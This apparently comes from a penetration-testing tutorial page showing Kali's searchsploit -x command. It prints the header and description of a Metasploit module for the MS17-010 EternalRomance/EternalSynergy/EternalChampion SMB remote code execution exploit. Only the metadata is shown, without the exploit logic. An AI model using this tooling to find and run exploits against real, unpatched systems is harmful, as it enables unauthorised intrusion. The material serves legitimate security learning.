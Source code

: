     

`searchsploit -x /usr/share/exploitdb/exploits/windows/remote/43970.rb`: The -x command switch allows you to examine the exploit code or information about the exploit. You can also upload nmap xml files to Searchsploit so it can find available exploits that match your target.

``` ruby
    root@kali:~# searchsploit -x /usr/share/exploitdb/exploits/windows/remote/43970.rb
    
    Snippet of the exploit: 
    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##
    
    # Windows XP systems that are not part of a domain default to treating all
    # network logons as if they were Guest. This prevents SMB relay attacks from
    # gaining administrative access to these systems. This setting can be found
    # under:
    #
    #  Local Security Settings >
    #   Local Policies >
    #    Security Options >
    #     Network Access: Sharing and security model for local accounts
    
    class MetasploitModule < Msf::Exploit::Remote
      Rank = NormalRanking
    
      include Msf::Exploit::Remote::SMB::Client::Psexec_MS17_010
      include Msf::Exploit::Powershell
      include Msf::Exploit::EXE
      include Msf::Exploit::WbemExec
      include Msf::Auxiliary::Report
    
      def initialize(info = {})
        super(update_info(info,
          'Name'           => 'MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution',
          'Description'    => %q{
            This module will exploit SMB with vulnerabilities in MS17-010 to achieve a write-what-where
            primitive. This will then be used to overwrite the connection session information with as an
            Administrator session. From there, the normal psexec payload code execution is done.
    
            Exploits a type confusion between Transaction and WriteAndX requests and a race condition in
            Transaction requests, as seen in the EternalRomance, EternalChampion, and EternalSynergy
            exploits. This exploit chain is more reliable than the EternalBlue exploit, but requires a
            named pipe.
```
            
